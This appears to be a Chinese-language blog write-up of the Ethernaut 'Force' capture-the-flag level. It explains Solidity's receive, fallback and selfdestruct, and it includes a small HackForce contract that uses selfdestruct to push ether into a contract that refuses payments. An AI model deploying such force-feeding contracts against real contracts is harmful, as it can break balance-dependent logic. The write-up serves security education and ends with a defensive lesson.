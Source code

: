 title: 7. Force
date: 2022-11-03 16:27:24
updated: 2022-11-03 16:27:24
tags: ethernaut
categories: Web3
---

Chain: Goerli
Difficulty: ●●●○○
Level: https://ethernaut.openzeppelin.com/level/0x20B5c742dD8A63400644Ba85dd48E8FDB6908A7A

### 要求

有些合约就是拒绝你的付款,就是这么任性 `¯\_(ツ)_/¯`

这一关的目标是使合约的余额大于0

这可能有帮助:

- Fallback 方法
- 有时候攻击一个合约最好的方法是使用另一个合约.
- 阅读上方的帮助页面, "控制台之外" 部分

### 分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

首先引入一个知识点 fallback。上一关已经简单介绍过 fallback方法，这次再扩展下。

`Solidity`支持两种特殊的回调函数，`receive()`和`fallback()`，他们主要在两种情况下被使用：

1. 接收ETH
2. 处理合约中不存在的函数调用（代理合约proxy contract）

#### 接收ETH函数 receive

`receive()`只用于处理接收`ETH`。一个合约最多有一个`receive()`函数，声明方式与一般函数不一样，不需要`function`关键字：`receive() external payable { ... }`。`receive()`函数不能有任何的参数，不能返回任何值，必须包含`external`和`payable`。

```solidity
// 定义事件
event Received(address Sender, uint Value);
// 接收ETH时释放Received事件
receive() external payable {
    emit Received(msg.sender, msg.value);
}
```

#### 回退函数 fallback

`fallback()`函数会在调用合约不存在的函数时被触发。可用于接收ETH，也可以用于代理合约`proxy contract`。`fallback()`声明时不需要`function`关键字，必须由`external`修饰，一般也会用`payable`修饰，用于接收ETH:`fallback() external payable { ... }`。

```solidity
// fallback
fallback() external payable{
    emit fallbackCalled(msg.sender, msg.value, msg.data);
}
```

#### receive和fallback的区别

`receive`和`fallback`都能够用于接收`ETH`，他们触发的规则如下：

```
触发fallback() 还是 receive()?
           接收ETH
              |
         msg.data是空？
            /  \
          是    否
          /      \
receive()存在?   fallback()
        / \
       是  否
      /     \
receive()   fallback()

```

简单来说，合约接收`ETH`时，`msg.data`为空且存在`receive()`时，会触发`receive()`；`msg.data`不为空或不存在`receive()`时，会触发`fallback()`，此时`fallback()`必须为`payable`。

`receive()`和`payable fallback()`均不存在的时候，向合约发送`ETH`将会报错。

我们再来看 Force 合约，这里只定义了合约，没有定义 `receive` 和 `fallback` 方法，到这里从调用不存在的合约方法触发 fallback 走不通，那还有没有其他方法可以往一个合约转账，还真有一个方法 `selfdestruct` 。

`selfdestruct`命令可以用来删除智能合约，并将该合约剩余`ETH`转到指定地址。`selfdestruct`是为了应对合约出错的极端情况而设计的。

`selfdestruct`使用起来非常简单：

```solidity
selfdestruct(address payable recipient)
```

其中`recipient`是接收合约中剩余`ETH`的地址。

```solidity
contract DeleteContract {

    uint public value = 10;

    constructor() payable {}

    receive() external payable {}

    function deleteContract() external {
        // 调用selfdestruct销毁合约，并把剩余的ETH转给msg.sender
        selfdestruct(payable(msg.sender));
    }

    function getBalance() external view returns(uint balance){
        balance = address(this).balance;
    }
}
```

### 解题

1. 首先打开Console，获取当前关卡合约实例地址 `instance`；
2. 打开 [Remix IDE](https://remix.ethereum.org/)，创建文件 `7_Force.sol`，粘贴以下代码：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;
    
    contract HackForce {
        address levelInstance;
    
        constructor(address _levelInstance) payable {
            levelInstance = _levelInstance;
        }
    
        function give() external payable {
            selfdestruct(payable(levelInstance));
        }
    }
    ```
    
3. 在constructor 填入当前关卡合约实例地址后部署。`VALUE` 填入任意值。
4. 再调用 `give` 函数，完成关卡。

### 后记

在solidity中，如果一个合约要接受 ether，fallback 方法必须设置为 `payable`。

但是，并没有发什么办法可以阻止攻击者通过自毁的方法向合约发送 ether, 所以, 不要将任何合约逻辑基于 `address(this).balance == 0` 之上。